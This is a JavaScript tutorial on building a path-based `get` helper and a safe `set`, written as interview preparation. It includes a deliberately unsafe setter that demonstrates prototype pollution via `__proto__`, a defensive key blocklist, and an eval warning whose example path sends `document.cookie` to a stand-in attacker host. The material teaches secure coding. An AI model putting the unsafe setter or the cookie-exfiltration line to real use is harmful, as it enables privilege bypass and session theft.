

## Introduction

Real data is nested and incomplete. A configuration file may or may not have a `cache` section; an API response may contain `user.address.city` for one customer and no `address` at all for the next. Reading such data with plain property access works only while every level exists:

```javascript title="crash.mjs"
const config = { db: { primary: { host: 'db1.internal', port: 5432 } } };
console.log(config.db.primary.port);
try {
  console.log(config.cache.redis.port);
} catch (err) {
  console.log(err.constructor.name + ': ' + err.message);
}
console.log(config.cache?.redis?.port);
```

```output
5432
TypeError: Cannot read properties of undefined (reading 'redis')
undefined
```

`config.cache` is `undefined`, and asking `undefined` for a property is a `TypeError`. Optional chaining (`?.`, ES2020) solves this when you know the path while writing the code. But often the path is **data**: a column definition in a table component says `field: 'customer.address.city'`, a form library stores errors under `'items[2].price'`, a templating system receives `{{ user.name }}`. For those cases you need a function that takes the path as a value:

```javascript
get(config, 'cache.redis.port', 6379); // 6379 when the path is missing
```

That function is `get(object, path, defaultValue)`, best known from lodash's `_.get`. Writing it yourself is a standard interview exercise because it is small but touches several real skills: parsing a mini-language, walking a structure with a loop, being precise about what "missing" means, and knowing that a careless sibling function (`set`) can corrupt every object in the program. This lesson builds all of it.

## Before you start

- **Objects and property access** — `obj.key` versus `obj[key]`, and that property keys are strings or symbols. See [[b1-dot-vs-bracket]].
- **`null`, `undefined` and falsy values** — the difference between "nullish" and "falsy" is the heart of the default-value rule. See [[b1-nullish-coalescing]] and [[b1-optional-chaining]].
- **Prototypes** — that `{}` inherits `toString` and `constructor` from `Object.prototype`. See [[b1-prototype-chain]].
- **Loops and arrays** — `for...of`, `push`, `slice`.

## The intuition

Imagine walking down a corridor of numbered doors with a list of directions: "door `orders`, then door `0`, then door `items`, then door `0`, then door `qty`". At each step you open the named door in the room you are standing in. If at some point there is no room at all — you are standing in empty space (`null` or `undefined`) — you stop and report "not found". If you complete every step, whatever you are holding is the answer.

That picture splits the problem into two independent jobs:

1. **Turn the path into a list of directions** — `'orders[0].items[0].qty'` becomes `['orders', '0', 'items', '0', 'qty']`. This is parsing.
2. **Follow the directions** — a loop that does `current = current[key]` and stops early if `current` becomes nullish. This is walking.

Keeping them separate makes each part easy to test, lets callers skip parsing by passing an array, and lets a `set` function reuse the same parser later.

## Step 1: turning a path into keys

A path string mixes two notations. **Dot notation** (`a.b`) separates plain names. **Bracket notation** (`a[0]` or `a["content.type"]`) wraps a key, which is how you reach array indexes and keys that themselves contain dots or spaces. The parser's output is an array of keys.

### The quick regex version, and where it breaks

The common interview first draft replaces brackets with dots and splits:

```javascript title="naive-parse.mjs"
function toKeysNaive(path) {
  return String(path).replace(/\[/g, '.').replace(/\]/g, '').split('.').filter(Boolean);
}
console.log(toKeysNaive('a.b[0].c'));
console.log(toKeysNaive('users[3].tags[0]'));
console.log(toKeysNaive('headers["content.type"]'));
console.log(toKeysNaive('a..b'));
```

```output
[ 'a', 'b', '0', 'c' ]
[ 'users', '3', 'tags', '0' ]
[ 'headers', '"content', 'type"' ]
[ 'a', 'b' ]
```

The first two lines are right, and in many interviews this version is acceptable if you **say out loud what it does not support**. The third line shows the limit: a quoted key containing a dot is split into two wrong keys with stray quote characters. The fourth shows a quieter decision: `filter(Boolean)` throws away empty segments, so `'a..b'` silently becomes `a.b`. Whether that is a feature or a bug is a contract decision, but you should make it on purpose.

### A small hand-written parser

A character-by-character parser handles quoted keys and makes every rule explicit. It reads the string once, left to right, building up the current key:

```javascript title="parse.mjs"
function parsePath(path) {
  if (Array.isArray(path)) return [...path]; // already keys; copy so callers can't mutate ours
  const str = String(path);
  const keys = [];
  let i = 0;
  let current = '';

  while (i < str.length) {
    const ch = str[i];
    if (ch === '.') {
      keys.push(current);
      current = '';
      i++;
    } else if (ch === '[') {
      if (current !== '') keys.push(current);
      current = '';
      const quote = str[i + 1];
      if (quote === '"' || quote === "'") {
        // Quoted key: read until the matching quote, honouring backslash escapes.
        let j = i + 2;
        let key = '';
        while (j < str.length && str[j] !== quote) {
          if (str[j] === '\\') j++;
          key += str[j];
          j++;
        }
        if (str[j] !== quote || str[j + 1] !== ']') {
          throw new SyntaxError(`Unterminated key at ${i} in "${str}"`);
        }
        keys.push(key);
        i = j + 2;
      } else {
        const close = str.indexOf(']', i);
        if (close === -1) throw new SyntaxError(`Missing ] at ${i} in "${str}"`);
        keys.push(str.slice(i + 1, close));
        i = close + 1;
      }
      if (str[i] === '.') i++; // in "a[0].b" the dot after ] only separates
    } else {
      current += ch;
      i++;
    }
  }
  if (current !== '' || str.endsWith('.')) keys.push(current);
  return keys;
}

console.log(parsePath('a.b[0].c'));
console.log(parsePath('headers["content.type"]'));
console.log(parsePath("rows[2]['first name']"));
console.log(parsePath(['a', 0, 'b']));
console.log(parsePath('a..b'));
console.log(parsePath(''));
try { parsePath('a[0'); } catch (e) { console.log(e.name + ': ' + e.message); }
```

```output
[ 'a', 'b', '0', 'c' ]
[ 'headers', 'content.type' ]
[ 'rows', '2', 'first name' ]
[ 'a', 0, 'b' ]
[ 'a', '', 'b' ]
[]
SyntaxError: Missing ] at 1 in "a[0"
```

Walk through the three branches. A **dot** ends the current key and starts a new one. An **opening bracket** ends any key in progress (so `rows[2]` yields `'rows'` and then `'2'`) and then reads a bracketed key: if the next character is a quote, it collects characters up to the matching quote, treating a backslash as "take the next character literally"; otherwise it takes everything up to `]`. After a closing bracket, a following dot is skipped because it only separates — without that line, `a[0].b` would produce an empty key between `0` and `b`. **Any other character** is appended to the current key.

The contract this parser chooses, which you should be able to state in an interview:

- An array path is used as-is, so keys may be numbers or even symbols, and nothing needs escaping.
- `'a..b'` produces an empty-string key in the middle. `''` is a legal property name in JavaScript (`({ '': 1 })['']` is `1`), so the parser keeps it rather than guessing.
- The empty path `''` produces no keys, so `get(obj, '')` returns `obj` itself.
- Malformed input throws a `SyntaxError` instead of quietly reading the wrong property.

> [!NOTE] Index keys are strings anyway
> The parser returns `'0'`, not `0`, for `[0]`. That is fine: every property key that is not a symbol is converted to a string before lookup, so `arr['0']` and `arr[0]` read the same element. Converting to a number would add work and change nothing.

## Step 2: walking the keys

With keys in hand, the walk is a single loop. The only subtle part is when to stop:

```javascript title="get.mjs"
import { parsePath } from './parse.mjs';

function get(obj, path, defaultValue) {
  let current = obj;
  for (const key of parsePath(path)) {
    if (current == null) return defaultValue; // null or undefined: the chain is broken
    current = current[key];
  }
  return current === undefined ? defaultValue : current;
}

const data = {
  user: { name: 'Ada', age: 0, nickname: '', manager: null },
  orders: [{ id: 'o-1', items: [{ sku: 'pen', qty: 2 }] }],
  'content.type': 'json',
};

console.log(get(data, 'orders[0].items[0].qty'));
console.log(get(data, ['orders', 0, 'id']));
console.log(get(data, 'user.age', 99));
console.log(get(data, 'user.nickname', 'anon'));
console.log(get(data, 'user.manager', 'none'));
console.log(get(data, 'user.manager.name', 'none'));
console.log(get(data, 'user.email', 'n/a'));
console.log(get(data, '["content.type"]'));
console.log(get(data, 'user.name.length'));
console.log(get(null, 'a.b', 'fallback'));
```

```output
2
o-1
0

null
none
n/a
json
3
fallback
```

(The fourth line of output is an empty string, which prints as a blank line.)

Three decisions in these few lines are worth defending:

**The check is `current == null`, before the property read.** Loose equality with `null` is true for exactly two values, `null` and `undefined` — the only two values that throw when you read a property from them. Every other value, including primitives, is safe: reading `'Ada'.length` auto-boxes the string into a temporary `String` object, which is why `'user.name.length'` returns `3`. Checking `typeof current === 'object'` instead would wrongly stop on strings and functions.

**The default applies only to `undefined`.** `user.age` is `0`, `user.nickname` is `''` and `user.manager` is `null`; all three are real stored values and are returned unchanged. `user.email` does not exist, so the property read produces `undefined` and the default `'n/a'` is used. This is the same rule as lodash's `_.get` ("the `defaultValue` is returned for `undefined` resolved values") and the same rule as JavaScript's own default parameters and destructuring defaults.

**`user.manager.name` returns the default rather than `null`.** The walk reaches `null` with keys left over, so the path is broken and the result is "missing". Only when `null` is the *final* value is it returned as data.

### Dry run

Here is `get(data, 'orders[0].items[0].qty')` step by step:

| Step | `key` | `current` before | `current == null`? | `current` after |
|---|---|---|---|---|
| 1 | `'orders'` | `data` | no | the `orders` array |
| 2 | `'0'` | `orders` array | no | `{ id: 'o-1', items: [...] }` |
| 3 | `'items'` | order object | no | the `items` array |
| 4 | `'0'` | `items` array | no | `{ sku: 'pen', qty: 2 }` |
| 5 | `'qty'` | item object | no | `2` |
| end | | | | `2 !== undefined`, return `2` |

And `get(data, 'user.manager.name', 'none')`: after `'user'` and `'manager'`, `current` is `null`; at the top of the third iteration the check fires and `'none'` is returned without touching `null.name`.



## The default-value trap

The most common bug in hand-written `get` functions is using `||` for the default:

```javascript title="buggy-default.mjs"
function getBuggy(obj, keys, defaultValue) {
  let current = obj;
  for (const key of keys) current = current?.[key];
  return current || defaultValue; // treats 0, '' and false as "missing"
}
const settings = { volume: 0, muted: false, theme: '' };
console.log(getBuggy(settings, ['volume'], 50));
console.log(getBuggy(settings, ['muted'], true));
console.log(getBuggy(settings, ['theme'], 'dark'));
```

```output
50
true
dark
```

Every answer is wrong. The user deliberately set the volume to zero and turned sound on, and the helper reports the opposite. `||` returns its right side for any **falsy** value: `false`, `0`, `-0`, `0n`, `''`, `null`, `undefined` and `NaN`. A default should replace only *absence*. Use an explicit `=== undefined` check, or `??` if you also want `null` to fall back to the default — but decide which, and document it.

> [!WARNING] Absent versus present-but-undefined
> `get({ a: undefined }, 'a', 'x')` returns `'x'`, exactly as if `a` did not exist. If your caller must tell those apart, `get` cannot carry that information in its return value. Provide a separate `has(obj, path)` that checks `key in current` (or `Object.hasOwn`) at each step, the way lodash pairs `_.get` with `_.has`.

## Own properties and the prototype chain

Because the walk uses ordinary property access, it follows the prototype chain:

```javascript title="inherited.mjs"
import { parsePath } from './parse.mjs';

function get(obj, path, defaultValue) {
  let current = obj;
  for (const key of parsePath(path)) {
    if (current == null) return defaultValue;
    current = current[key];
  }
  return current === undefined ? defaultValue : current;
}

console.log(get({}, 'constructor.name'));
console.log(typeof get({}, 'toString'));
console.log(get({}, '__proto__') === Object.prototype);

function getOwn(obj, path, defaultValue) {
  let current = obj;
  for (const key of parsePath(path)) {
    if (current == null || !Object.hasOwn(current, key)) return defaultValue;
    current = current[key];
  }
  return current === undefined ? defaultValue : current;
}
console.log(getOwn({}, 'constructor.name', 'blocked'));
console.log(getOwn({ list: [10, 20] }, 'list.length'));
console.log(getOwn('hello', '1'));
```

```output
Object
function
true
blocked
2
e
```

An empty object "has" a `constructor`, a `toString` and a `__proto__`, all inherited. For reading trusted application data that rarely matters. It matters when the **path comes from outside** — a URL parameter, a template written by a customer, a JSON rule file. Then `get` can hand out functions such as `Object` or `Function` that the author never meant to expose, and template engines have had sandbox escapes built on exactly this.

`getOwn` uses `Object.hasOwn` (ES2022) to accept only **own properties**. It still works for arrays (`length` and indexes are own properties of an array) and for strings (`Object.hasOwn` boxes the primitive, and a `String` object owns its indexes and `length`). The cost is that getters defined on a class prototype are now invisible, so `getOwn(new URL('https://x.dev'), 'host')` returns the default. Choose the own-only version for untrusted paths and the plain version for internal code.

## The dangerous sibling: set and prototype pollution

Interviewers often follow up with "now write `set(object, path, value)`". The obvious implementation walks all keys but the last, creating missing objects, and assigns at the end. Feed it the path `'__proto__.isAdmin'` and see what happens:

```javascript title="pollution.mjs"
import { parsePath } from './parse.mjs';

function setUnsafe(obj, path, value) {
  const keys = parsePath(path);
  let current = obj;
  for (const key of keys.slice(0, -1)) {
    if (current[key] == null) current[key] = {};
    current = current[key];
  }
  current[keys.at(-1)] = value;
  return obj;
}

const userInput = '__proto__.isAdmin'; // imagine this came from a query string
setUnsafe({}, userInput, true);
const someoneElse = {};
console.log(someoneElse.isAdmin);
```

```output
true
```

The first step reads `obj['__proto__']`, which is `Object.prototype`. The final assignment therefore writes `isAdmin = true` onto `Object.prototype`, and **every plain object in the process** now appears to have `isAdmin: true`. A later check like `if (user.isAdmin)` on a user object without that field passes. This class of bug is called **prototype pollution**, and it was found in widely used utilities — lodash's `merge`, `defaultsDeep` and `zipObjectDeep` all received fixes for it between 2018 and 2020 — because they walked caller-supplied paths exactly like this. [[b1-prototype-pollution]] covers the attack in depth.

The defence is to refuse the keys that lead to shared prototypes:

```javascript title="safe-set.mjs"
import { parsePath } from './parse.mjs';

const BLOCKED = new Set(['__proto__', 'constructor', 'prototype']);

function set(obj, path, value) {
  const keys = parsePath(path);
  if (keys.length === 0) throw new TypeError('set() needs a non-empty path');
  if (keys.some((k) => BLOCKED.has(String(k)))) {
    throw new TypeError(`Refusing unsafe path "${keys.join('.')}"`);
  }
  let current = obj;
  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (current[key] == null || typeof current[key] !== 'object') {
      // Create an array when the next key looks like an index, as lodash does.
      current[key] = /^\d+$/.test(String(keys[i + 1])) ? [] : {};
    }
    current = current[key];
  }
  current[keys.at(-1)] = value;
  return obj;
}

console.log(JSON.stringify(set({}, 'a.list[1].name', 'x')));
try { set({}, '__proto__.isAdmin', true); } catch (e) { console.log(e.message); }
console.log(({}).isAdmin);
```

```output
{"a":{"list":[null,{"name":"x"}]}}
Refusing unsafe path "__proto__.isAdmin"
undefined
```

`constructor` is blocked as well because `obj.constructor.prototype` is another road to `Object.prototype`. The array-creation rule explains the `null` in the output: `list[1]` created a two-slot array whose first slot is a hole, and `JSON.stringify` writes holes as `null`. Other defences that work alongside the blocklist are creating containers with `Object.create(null)` (no prototype to pollute) and freezing `Object.prototype` at startup in services that can afford it.

> [!IMPORTANT] Reading is not polluting
> `get(obj, '__proto__.x')` only *reads*; it cannot change the prototype. The real risk lives in `set`, `merge` and similar writers that share the parser. Blocking the keys in `get` too is still reasonable when paths are untrusted, because it stops inherited values leaking out.

## Why not eval?

A tempting shortcut is `eval('obj.' + path)` or `new Function('obj', 'return obj.' + path)`. It handles dots and brackets for free, and it is the wrong tool for three reasons. It **executes code**: the path `'a; fetch("https://evil.example/?c=" + document.cookie)'` is now a program. It still **throws** on missing intermediate values unless you rewrite the path into optional chaining, which is parsing anyway. And it is **blocked** by any Content Security Policy that omits `'unsafe-eval'`, and prevents engines from optimising the surrounding function. A twenty-line parser has none of these problems.

## get versus optional chaining

| | `obj?.a?.b?.[0]` | `get(obj, 'a.b[0]')` |
|---|---|---|
| Path known when | Writing the code | At runtime (data) |
| Type checking | TypeScript checks every step | Usually returns `unknown` or `any` |
| Speed | Direct property access | Parse plus loop (parse can be cached) |
| Default | `?? fallback` (also replaces `null`) | `defaultValue` (usually only `undefined`) |
| Typos | Compile-time error in TypeScript | Silently returns the default |

Use optional chaining whenever you can write the path in code. Reach for `get` when the path genuinely arrives as data: column definitions, form field names, translation keys, rule engines, `sortBy('user.lastName')`-style helpers. Inside `get`, the walk can even be written with optional chaining — `current = current?.[key]` — though the explicit `== null` check makes the early return and its reason clearer.

## In real systems

**Libraries.** lodash's `_.get`, `_.set`, `_.has` and `_.unset` all share one path parser, and lodash caches parsed strings (up to 500 of them) so repeated calls with the same path skip parsing. Form libraries such as React Hook Form and Formik address nested fields by path strings like `'items.2.price'`, and their internal `get` helpers follow the same "default only for `undefined`" rule.

**Tables and lists.** Data-grid components take column definitions such as `{ header: 'City', accessor: 'address.city' }` and call a path getter per cell. Here the parse-once optimisation matters: a grid with 1,000 rows and 10 columns calls `get` 10,000 times per render, so parse each accessor once when the columns are defined and keep the key arrays.

**Configuration and templating.** Feature-flag rules (`"user.plan == 'pro'"`), logging field selectors and email templates (`{{ order.shipping.eta }}`) all resolve dotted paths against a context object, frequently with paths written by people outside the engineering team. These are exactly the untrusted-path cases where own-property checks and blocked keys belong.

## Trade-offs and alternatives

A path getter gives you **flexibility** — paths as data — at the cost of **type safety** and a little speed. TypeScript can type a getter with template-literal types (`get<T, P extends Path<T>>`), and libraries such as React Hook Form do this, but the types are complex and slow to compile for deep objects. If the set of paths is small and fixed, writing small accessor functions (`(row) => row.address?.city`) is simpler, faster and fully typed; many table libraries accept either form for that reason.

Supporting more syntax (quoted keys, escapes, negative indexes, wildcards like `items[*].sku`) makes the parser larger and the contract harder to explain. JSONPath and JMESPath are full query languages for the wildcard and filter cases; do not grow `get` into one by accident.

## Common mistakes

> [!MISTAKE] Using `||` or a truthiness check for the default
> `return current || defaultValue` replaces `0`, `''` and `false` with the default. Compare with `undefined` explicitly (or use `??` if `null` should also fall back), and test the three falsy values directly.

**Checking for nullish after the read instead of before.** `current = current[key]; if (current == null) return def;` looks equivalent, but it returns the default when the *final* value is `null`, so `get({ a: null }, 'a')` reports "missing" for a value that exists. Check at the top of the loop, before reading.

**Stopping on primitives.** Using `typeof current !== 'object'` as the stop condition makes `get(user, 'name.length')` fail. Primitives other than `null` and `undefined` can be read from.

**Splitting quoted keys.** The `replace`/`split` parser turns `headers["content.type"]` into nonsense. Either support quotes properly or document that keys containing dots must be passed in an array path.

**Mutating the caller's array path.** If the parser returns the caller's array and a later step calls `pop()` or `shift()` on it (common in recursive `set` implementations), the caller's path changes between calls. Copy it.

**Reusing the parser for `set` without blocking `__proto__`.** The read side looks harmless, so the write side gets the same code and inherits a prototype-pollution hole.

## Interview perspective

A good answer starts by fixing the contract before writing code: what path syntax is supported, what happens for a missing path, whether `null` counts as missing, and whether arrays of keys are accepted. Interviewers reward that more than an elaborate parser.

> [!INTERVIEW] A strong spoken outline
> "I'll split it into parsing and walking. The parser turns `a.b[0].c` into `['a','b','0','c']`; I'll accept an array path too. The walk is a loop: if the current value is `null` or `undefined` I stop and return the default, otherwise I read the next key. At the end I return the default only if the value is `undefined`, so `0` and `''` come back unchanged. If paths can come from users I'd restrict to own properties and, for `set`, refuse `__proto__`, `constructor` and `prototype`."

Follow-ups you should be ready for:

- **Why `== null` and not `!current`?** Only `null` and `undefined` throw on property access; `0`, `''` and `false` can be read from and may be the real value.
- **Write it recursively.** `get(obj, [k, ...rest]) = obj == null ? def : get(obj[k], rest)`. It is elegant but creates a new array per level; the loop is O(1) extra space beyond the parsed keys.
- **Complexity?** O(p) to parse a path of length p, plus O(k) property reads for k keys. Caching parsed paths makes repeated calls O(k).
- **How would you implement `has`?** Same walk, but at each step return `false` unless `current != null && key in Object(current)` (or `Object.hasOwn` for own-only), and return `true` after the last key.
- **What is prototype pollution?** Writing through `__proto__` or `constructor.prototype` changes `Object.prototype`, affecting every object. Block those keys, use `Object.create(null)` containers, or use a `Map`.

```quiz
Q: What does `get({ count: 0 }, 'count', 10)` return with the implementation in this lesson?
- [ ] `10`, because `0` is falsy
- [x] `0`, because the default applies only when the resolved value is `undefined`
- [ ] `undefined`
- [ ] It throws, because `0` has no properties
> The walk reaches the stored value `0` and the final check is `current === undefined`, which is false. A `||`-based default would wrongly return 10, which is the classic bug this rule prevents.

Q: Why does `get` check `current == null` instead of `typeof current !== 'object'`?
- [ ] `typeof` is slower
- [ ] `== null` also catches `0` and `''`
- [x] Only `null` and `undefined` throw on property access; strings and other primitives can be read from, so `'name.length'` should work
- [ ] `typeof null` is `'undefined'`
> Primitives are auto-boxed when you read a property, so `'Ada'.length` is 3. Loose equality with null matches exactly null and undefined. Note that typeof null is 'object', not 'undefined', which is another reason a typeof test is error-prone here.

Q: A naive `set(obj, path, value)` is called with the path `'__proto__.isAdmin'` and value `true`. What is the effect?
- [ ] `obj` gets an own property named `__proto__.isAdmin`
- [ ] Nothing, because `__proto__` is read-only
- [x] `Object.prototype.isAdmin` becomes `true`, so every plain object appears to have `isAdmin`
- [ ] A `TypeError` is thrown
> Reading obj['__proto__'] returns Object.prototype, and the final assignment writes onto it. That is prototype pollution. Blocking __proto__, constructor and prototype keys, or using prototype-less containers, prevents it.
```

## Practice

1. **`has(obj, path)`.** Return `true` only if every key on the path exists, so `has({ a: undefined }, 'a')` is `true` and `has({}, 'a')` is `false`.
2. **Parse-once getter.** Write `compilePath(path)` that returns a function `(obj, def) => value`, parsing only once. Measure it against `get` on 100,000 calls.
3. **`unset(obj, path)`.** Delete the property at the end of the path and return whether something was deleted. Block the same unsafe keys as `set`.
4. **Wildcards.** Extend `get` so `'orders[*].id'` returns an array of every order's `id`. State what happens when one order has no `id`.
5. **Typed path.** In TypeScript, write a type `Path<T>` that produces `'a' | 'a.b'` for `{ a: { b: number } }`, and use it to type `get`'s `path` parameter.

## Quick revision {#quick-revision}

- `get(obj, path, def)` = parse the path into keys, then loop `current = current[key]`.
- Stop with the default as soon as `current == null` (exactly `null` or `undefined`) and keys remain.
- Return the default only when the final value is `undefined`; `0`, `''`, `false` and a final `null` are real values.
- Never `||` for defaults. Use `=== undefined` (or `??` if `null` should also default).
- Parser: dot separates; `[n]` and `["quoted.key"]` wrap a key; skip the dot after `]`; accept array paths as-is.
- Index keys can stay strings: `arr['0'] === arr[0]`.
- Plain property access follows the prototype chain; use `Object.hasOwn` per step for untrusted paths.
- `set` with `__proto__`, `constructor` or `prototype` in the path pollutes `Object.prototype`; block those keys.
- No `eval`: code execution, still throws on missing data, blocked by CSP.
- Prefer optional chaining when the path is known in code; `get` is for paths that are data.

## Key takeaways {#key-takeaways}

- A path getter is two small parts: a parser that produces keys and a loop that follows them.
- The stop rule is "current is `null` or `undefined`", checked before each read.
- Defaults replace absence, not falsiness; `get({ volume: 0 }, 'volume', 50)` must return `0`.
- Define the contract — syntax, missing versus `null`, array paths — before coding; that is what interviewers listen for.
- The same parser in a `set` or `merge` function is a prototype-pollution hole unless dangerous keys are refused.
- Optional chaining is better whenever the path is fixed in source code; `get` earns its place when paths arrive as data.
